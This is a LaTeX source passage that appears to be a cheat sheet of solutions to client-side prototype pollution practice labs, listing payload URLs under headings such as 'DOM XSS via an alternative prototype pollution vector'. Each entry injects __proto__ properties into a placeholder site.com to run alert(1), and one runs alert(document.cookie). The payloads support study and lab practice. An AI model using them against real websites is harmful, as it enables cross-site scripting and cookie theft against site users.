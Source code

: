 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
https://site.com/?__proto__[transport_url]=data:,alert(1)
\end{Verbatim}

\subsubsection{2. DOM XSS via an alternative prototype pollution
vector}\label{2-dom-xss-via-an-alternative-prototype-pollution-vector}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
https://site.com/?__proto__.sequence=alert(1)-
\end{Verbatim}

\subsubsection{3. Client-side prototype pollution via flawed
sanitization}\label{3-client-side-prototype-pollution-via-flawed-sanitization}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
\end{Verbatim}

\subsubsection{4. Client-side prototype pollution in third-party
libraries}\label{4-client-side-prototype-pollution-in-third-party-libraries}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
\end{Verbatim}

\subsubsection{5. Client-side prototype pollution via browser
APIs}\label{5-client-side-prototype-pollution-via-browser-apis}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
https://site.com/?__proto__[value]=data:,alert(1)
\end{Verbatim}
\end{document}
